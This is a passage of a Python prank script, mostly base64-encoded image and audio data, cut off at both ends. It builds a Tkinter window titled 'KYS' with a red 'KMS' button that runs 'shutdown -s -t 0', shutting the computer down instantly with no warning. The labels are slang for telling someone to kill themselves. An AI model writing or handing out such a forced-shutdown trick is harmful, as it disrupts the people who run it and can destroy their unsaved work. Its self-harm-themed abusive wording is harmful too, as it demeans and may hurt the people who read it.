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'

def main():
    root = Tk()
    root.title('KYS')
    root.geometry(f'400x400+{random.randint(0,1000)}+{random.randint(0,400)}')
    root.resizable(0, 0)

    # Загружаем изображение
    img = Image.open(io.BytesIO(base64.b64decode(img_data)))
    img = img.resize((400, 300))  # Изменяем размер изображения, если необходимо
    img_tk = ImageTk.PhotoImage(img)

    def kys():
        os.system('shutdown -s -t 0')

    # Создаем метку с изображением
    lb = Label(root, image=img_tk)
    lb.pack()
    bt = Button(root,text='KMS',command=kys,bg = 'red', fg='white', width=400, height=100,font=80)
    bt.pack()

    root.mainloop()


mp3 = b'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